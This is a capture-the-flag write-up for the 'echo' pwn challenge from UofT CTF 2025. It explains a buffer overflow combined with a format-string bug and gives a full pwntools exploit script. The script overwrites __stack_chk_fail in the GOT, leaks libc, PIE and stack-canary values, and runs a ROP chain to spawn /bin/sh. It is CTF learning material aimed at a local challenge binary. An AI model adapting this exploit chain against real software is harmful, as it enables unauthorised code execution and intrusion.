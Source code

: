 # [pwn] : UofT CTF 2025 - echo
Author : White
Description : Yet another echo service. However, the service keeps printing stack smashing detected for some reason, can you help me figure it out?

- **Category** : Pwn
- **Solves** : 54
- **Protection** : Partial RELRO, NX on, Canary on, PIE on

## 1. Vulnerability Summary
There's no limitation on your input, and buffer starts at rsp+7.
Canary is located at rbp+8 so, technically you have only 1 byte to input something without stack smashing detection.
In other words, you can write something over canary.

## 2. Exploitation Strategy
1. **GOT Overwrite** : Overwrite __stack_chk_fail@GOT to vuln() by FSB
2. **Leak** : Leak LIBC base, PIE base and Canary
3. **ROP** : Perform ROP that includes Canary so that you can bypass your loop

## 3. Exploit Code
```from pwn import *

p = process('./chall', env={'LD_PRELOAD':'./libc.so.6'})
elf = ELF('./chall')
libc = ELF('./libc.so.6')

missing_byte = int(input(), 16)

overflow_offset = 0x8 * 8 + 1

vuln = elf.symbols['vuln']

patched_addr = (vuln % 0x1000) | ((missing_byte - 3) << 12)
print(hex(patched_addr))

fmt = f'%{ (vuln % 0x1000) | ((missing_byte - 3) << 12)}lx%15$hn'.encode()
payload = fmt.ljust(overflow_offset, b'A')
payload += (elf.got['__stack_chk_fail'] % 0x100).to_bytes(1, 'big')
payload += ((missing_byte << 4)).to_bytes(1, 'big')

p.send(payload)

sleep(1)

libc_leak_offset = 3
elf_leak_offset = 9
stack_leak_offset = 22
p.send(f'%{libc_leak_offset}$lx|%{elf_leak_offset}$lx|%{stack_leak_offset}$lx'.encode())

leak = p.recvrepeat(1)
leak = leak[leak.index(b'A'):]
leak = leak[leak.index(b'7'):]

libc_base = int(leak[:12], 16) - 0x114992
print("libc base :", hex(libc_base))

pie_base = int(leak[13:25], 16) - 0x1278
print("pie base :", hex(pie_base))

binsh = libc_base + next(libc.search(b'/bin/sh'))
system = libc_base + libc.symbols['system']
pop_rdi = libc_base + 0x2a3e5
ret = pie_base + 0x101a

print("/bin/sh :", hex(binsh))
print("system :", hex(system))
print("pop rdi; ret :", hex(pop_rdi))
print("ret :", hex(ret))

sleep(1)

p.send(b'AA')
canary_leak = p.recv()[1:9]
canary = b'\x00' + canary_leak[1:]
canary = int.from_bytes(canary, 'little')
print("canary :", hex(canary))

sleep(1)

ROP = b'A'
ROP += p64(canary)
ROP += b'B' * 0x8
ROP += p64(ret)
ROP += p64(pop_rdi)
ROP += p64(binsh)
ROP += p64(system)

p.send(ROP)

p.interactive()```
